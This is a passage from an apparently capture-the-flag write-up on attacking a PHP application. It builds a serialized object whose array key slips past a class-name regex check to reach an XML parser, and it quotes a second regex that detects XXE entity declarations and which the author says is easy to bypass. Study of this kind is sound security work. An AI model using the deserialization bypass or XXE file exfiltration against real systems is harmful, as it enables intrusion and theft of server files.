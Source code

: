 Therefore, we could put the object initialization into a serialized array, for which the key is the start of an (invalid) object serialization string. So, something like:

```php
<?php

require("./models/XmlParserModel.php");
require("./models/UserModel.php");

$payload = 'XXE-causing XML here';

$foo = new XmlParserModel($payload);

$lol = new UserModel();
$lol->username = 'admin';
$lol->test = array(
    ";O:12:" => $foo,
);

echo serialize($lol);

?>
```

Which produces:

```php
O:9:"UserModel":2:{s:8:"username";s:5:"admin";s:4:"test";a:1:{s:6:";O:12:";O:14:"XmlParserModel":1:{s:20:"^@XmlParserModel^@data";s:20:"XXE-causing XML here";}}}
```

Due to the key name being `O:12:`, the regex will include the start of the _actual_ object deserialization as `O:12:";O:14:"`. Obviously, `;O:14:` is not a valid class name, so we finally bypass the method check, and move on to trying to trigger XXE for file exfiltration.

## XXE

However, no joy, there's another regex filter! This is the same one we saw earlier that suggested XXE.

```php
preg_match_all("/<!ENTITY\s+[^\s]+\s+SYSTEM\s+[\'\"](?i:file|http|https|ftp|php|zlib|data|glob|expect|zip):\/\//mi")
```

So, case insensitive looking for any `<!ENTITY SYSTEM ...` calls. This regex is a lot less effective than the other one and I got past it a couple times without even meaning to. 

If you haven't seen XXE used before, our goal is to take a reference to an external object (like, a file) with an XML `ENTITY` followed by `SYSTEM` or `PUBLIC "name"`,  and include its content in an HTTP request in order to exfiltrate it.

Let's test it on local to make sure that XXE works with a basic payload:

![image-20201122195427539](../image-20201122195427539.png)
